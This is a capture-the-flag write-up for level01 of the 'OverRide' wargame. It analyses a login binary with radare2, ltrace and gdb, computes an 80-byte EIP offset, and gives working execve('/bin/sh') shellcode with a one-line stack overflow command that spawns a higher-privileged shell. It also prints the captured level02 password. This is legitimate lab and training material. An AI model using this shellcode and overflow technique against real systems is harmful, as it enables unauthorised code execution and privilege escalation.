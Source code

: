# Level 01 Buffer Overflow

## Overview
The binary is a basic login program that prompts for a `username` and `password`. It contains two `fgets()` functions with buffers of size `256` and `100`, suggesting potential **buffer overflow** vulnerabilities that could lead to *flow redirection* and *shellcode* execution.

### Main Function
```bash
./resources/r2.sh level01
[...]
[0x080483b0]> aaa
[0x080484d0]> s main
[0x080484d0]> V
[0x080484d0]> V
```
![R2 graph](../docs/media/l1.r2.png)

### Verify Username
The username comparison involves checking the first 7 characters against `"dat_wil"`, preventing a buffer overflow attack on this `fgets()` function.
```bash
[...]
[0x080484d0]> s sym.verify_user_name
[0x08048464]> V
[0x08048464]> V
```
![R2 Verify Username](../docs/media/l1.verify_username.png)

### `fgets` Buffer Sizes
Using `ltrace`, the buffer sizes of the 2 `fgets()` are 256 and 100 characters, on the addresses `0x0804a040` and `0xffffd6ec` respectively.
We can try to find out if the stack frame size available after the second `fgets()` call, is inside the size of the buffer, to see if we can overwrite the `EIP` address to redirect the flow.
```
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                     = 39
printf("Enter Username: ")                                      = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n"verifying username....

)                                = 24
puts("Enter Password: "Enter Password: 
)                                        = 17
fgets(hello
"hello\n", 100, 0xf7fcfac0)                               = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)                           = 29
+++ exited (status 1) +++
```

### Finding EIP Offset
#### `gdb` Disassembled Main
```gdb
(gdb) disassemble main 
Dump of assembler code for function main:
   [...]
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>          # fgets username
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>   # verify username
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>          # fgets password
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>   # verify password
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret    
End of assembler dump.
```
#### Breakpoint after Password `fgets`
```
(gdb) break *0x08048579                                     # break after fgets password
Breakpoint 1 at 0x8048579

Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Hello this is the buffer :)

Breakpoint 1, 0x08048579 in main ()
```
#### EIP - Buffer Address
To finally find the `offset`, we need to find the difference between our `Buffer Address` and the `EIP` (address of the next instruction to be executed).
```
(gdb) x/s $eax
0xffffd6cc:	 "Hello this is the buffer :)\n"
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
```

$$
\begin{aligned}
\text{EIP} &= \texttt{0xffffd71c} \\
\text{Buffer Address} &= \texttt{0xffffd6cc} \\
\texttt{0xffffd71c} - \texttt{0xffffd6cc} &= 80 \\
\text{Offset} &= 80
\end{aligned}
$$

## Resolution

Information recollected:
- User inputs
    - Username `fgets` input.
        - **Buffer size** of 256.
        - **Buffer address** is `0x0804a040`.
        - `memcmp` of size 7.
    - Password `fgets` input.
        - **Buffer size** of 100.
        - **Buffer address** is `0xffffd6ec`.
        - The `EIP` is reachable from this **buffer**.

This is a very convenient scenario to inject *shellcode* inside the unused section of the first **buffer**, and redirect the flow changing the `EIP` to point to our *shellcode* address, using the second **buffer**.

## Payload

$$
\begin{array}{rl}
\text{Buffer1.address + 7} & = \textbackslash x47\textbackslash xa0\textbackslash x04\textbackslash x08 \\
\text{Buffer1} & = dat\\_wil + \text{Shellcode} \\
\text{Buffer2} & = \text{80 character padding} + (\text{Buffer1.address + 7})
\end{array}
$$


### Shellcode
```C
execve("/bin/sh", NULL, NULL) = 
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

### Command

This one line command is able to run a shell as a level02 user.
```bash
cat <(printf "dat_wil\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n%80c\x47\xa0\x04\x08\n" | tr ' ' 'a') - | ./level01
```

## Flag

```bash
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
